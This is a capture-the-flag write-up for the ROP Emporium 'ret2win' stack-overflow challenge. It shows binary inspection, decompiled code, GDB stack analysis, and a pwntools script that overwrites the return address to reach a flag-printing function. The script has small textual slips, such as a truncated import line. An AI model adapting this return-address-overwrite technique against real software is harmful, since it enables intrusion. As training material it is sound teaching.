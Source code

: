 # Challenge 1 - ret2win
## Description
This is the first of the ROP Emporium challenges. [ret2win](https://ropemporium.com/challenge/ret2win.html)

"ret2win means "return here to win" and it's recommended you start with this challenge."

Let's start by inspecting the binary:
```
mfumega@pwn-boy:/pwn-boy$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec ret2win
[*] '/pwn-boy/ret2win'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

We can see here some information on the protections the binary has enabled, such as Partial RELRO, and NX enabled. 

Let's run the binary.
```
mfumega@pwn-boy:/pwn-boy$ ./ret2win
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAAA
Thank you!

Exiting
``` 

The challenge itself its explaining what will happen. Is trying to fit 56 bytes of our input, on a 32 bytes variable. Now let's see whats going on with GDB, and try to understand better this behaviour. 

There is a main function, that calls to another one called `pwnme()`. 

If we open this binary with Ghidra we can see what this `pwnme` function is doing more clearly, even though its not totally necesary. Let's take a look at the `main` and `pwnme` functions, as well as the "winning" function `ret2win`:

```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}

void pwnme(void)

{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_28,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

From this code, we know that the `pwnme` function relies on `read()` to capture our input. It will get 0x38 bytes, and store it into a 32 bytes variable, as the text shown at the beginning. 

This being said, let's now jump to GDB! 

I've placed a breakpoint right after the call to `read`: 
```
pwndbg> b *pwnme +97
Breakpoint 1 at 0x400749
pwndbg> r
```

When it asked for my input, I put: "AAAAAAAA"

After hitting the breakpoint, we can inspect the stack and see some useful information: 

```
 ► 0         0x400749 pwnme+97
   1         0x4006d7 main+64
   2   0x7ffff7da8d90 __libc_start_call_main+128
   3   0x7ffff7da8e40 __libc_start_main+128
   4         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/25gx $rsp
0x7fffffffdd00: 0x4141414141414141      0x000000000000000a
0x7fffffffdd10: 0x0000000000000000      0x0000000000000000
0x7fffffffdd20: 0x00007fffffffdd30      0x00000000004006d7
0x7fffffffdd30: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd40: 0x0000000000000000      0x0000000000400697
0x7fffffffdd50: 0x00000001ffffde30      0x00007fffffffde48
0x7fffffffdd60: 0x0000000000000000      0xf6a712e7147c73f9
0x7fffffffdd70: 0x00007fffffffde48      0x0000000000400697
0x7fffffffdd80: 0x0000000000000000      0x00007ffff7ffd040
0x7fffffffdd90: 0x0958ed18aefe73f9      0x0958fd520ef673f9
0x7fffffffdda0: 0x00007fff00000000      0x0000000000000000
0x7fffffffddb0: 0x0000000000000000      0x00007fffffffde48
0x7fffffffddc0: 0x0000000000000000
pwndbg>
``` 

From this capture from GDB we can see the following info: 
- We are at the pwnme+97 (0x400749)
- When this function ends, the program will continue at main+64 (0x4006d7)
- Our input starts at 0x7fffffffdd00 (we can see the 8 "A" (41 in hex)
- At address 0x7fffffffdd28 is stored the return address 0x40067

```
pwndbg> x/x 0x7fffffffdd28
0x7fffffffdd28: 0x00000000004006d7
pwndbg>
```

So, if we substract the start of our input, to the target memory address, we'll know how many bytes we need to use as padding before overwrite the return value (0x7fffffffdd28 - 0x7fffffffdd00). This will give 40 as a result, so if we put 40 bytes, the next 8 bytes will be the new return address. 
If we overwrite the actual address with the `ret2win` one, we should get the flag. 

Using pwntools: 
```
m pwn import *

binary_path = '/pwn-boy/ret2win'
p = process(binary_path)

offset = 40
ret2win_addr = 0x400756


payload = b'A' * offset
payload += p64(ret2win_addr)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```

If we do it like this it will show the success message, but not the flag. It's a padding issue. Just add 1 to the ret2win address `ret2win_addr = 0x400756 + 1` and it will do the trick. 

We got the flag: 
```
> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
``` 

That's it for this challenge! 

